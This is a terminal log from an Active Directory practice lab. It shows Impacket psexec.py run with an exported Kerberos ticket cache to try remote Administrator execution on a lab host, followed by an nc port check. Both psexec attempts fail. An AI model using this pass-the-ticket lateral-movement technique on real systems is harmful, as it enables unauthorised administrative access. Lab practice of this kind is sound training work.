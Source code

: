 ┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ export KRB5CCNAME=$(pwd)/WINTERFELL.north.sevenkingdoms.local.ccache  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ psexec.py \-k \-no-pass north.sevenkingdoms.local/Administrator@WINTERFELL.north.sevenkingdoms.local  
/home/kali/.venvs/cme/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html. The pkg\_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools\<81.  
  import pkg\_resources  
Impacket v0.12.0 \- Copyright Fortra, LLC and its affiliated companies 

\[-\] \[Errno Connection error (NORTH.SEVENKINGDOMS.LOCAL:88)\] \[Errno \-2\] Name or service not known  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ psexec.py \-k \-no-pass north.sevenkingdoms.local/Administrator@WINTERFELL.north.sevenkingdoms.local \-dc-ip 192.168.20.11  
/home/kali/.venvs/cme/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html. The pkg\_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools\<81.  
  import pkg\_resources  
Impacket v0.12.0 \- Copyright Fortra, LLC and its affiliated companies 

\[-\] SMB SessionError: code: 0xc0000016 \- STATUS\_MORE\_PROCESSING\_REQUIRED \- {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ nc \-vv WINTERFELL.north.sevenkingdoms.local 445  
WINTERFELL.north.sevenkingdoms.local \[192.168.20.11\] 445 (microsoft-ds) open  
^C sent 0, rcvd 0  
                                                                                                                                                                  
